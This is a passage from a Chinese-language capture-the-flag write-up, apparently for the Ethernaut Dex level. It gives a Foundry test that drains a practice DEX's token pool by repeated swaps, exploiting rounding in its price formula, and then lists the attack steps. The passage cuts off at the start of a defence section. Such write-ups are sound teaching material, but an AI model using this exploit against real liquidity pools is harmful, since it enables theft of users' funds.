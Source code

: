 ```solidity
        token2.approve(address(instance), 100);
        instance.addLiquidity(address(token1), 100);
        instance.addLiquidity(address(token2), 100);

        // 发送初始代币给 player
        token1.transfer(player, 10);
        token2.transfer(player, 10);
    }

    function testDexAttack() public {
        vm.startPrank(player);

        // 授权 Dex 合约无限量的代币
        token1.approve(address(instance), type(uint256).max);
        token2.approve(address(instance), type(uint256).max);

        // 执行攻击流程
        swapAll(address(token1), address(token2)); // 10 TKN1 -> 10 TKN2
        swapAll(address(token2), address(token1)); // 20 TKN2 -> 24 TKN1
        swapAll(address(token1), address(token2)); // 24 TKN1 -> 30 TKN2
        swapAll(address(token2), address(token1)); // 30 TKN2 -> 41 TKN1
        swapAll(address(token1), address(token2)); // 41 TKN1 -> 65 TKN2
        
        // 最终一击
        instance.swap(address(token2), address(token1), 45);

        // 验证 Dex 中至少一种代币已被耗尽
        bool drained = token1.balanceOf(address(instance)) == 0 || token2.balanceOf(address(instance)) == 0;
        assertTrue(drained, "Dex should be drained of one token");

        vm.stopPrank();
    }

    // 辅助函数，用于交换指定代币的全部余额
    function swapAll(address tokenIn, address tokenOut) internal {
        uint256 balance = IERC20(tokenIn).balanceOf(player);
        instance.swap(tokenIn, tokenOut, balance);
    }
}
```

### 关键攻击步骤

1.  **授权**: 授权 `Dex` 合约可以从你的地址转移 `Token1` 和 `Token2`。
2.  **反复交换**: 在 `Token1` 和 `Token2` 之间来回交换你的全部余额。
3.  **利用误差**: 每次交换都会因为整数除法的舍入而产生微小的利润。
4.  **累积优势**: 重复交换，直到你拥有的代币数量足以一次性换走池中剩余的所有另一种代币。
5.  **最终一击**: 执行最后一次交换，清空池子。

## 🛡️ 防御措施
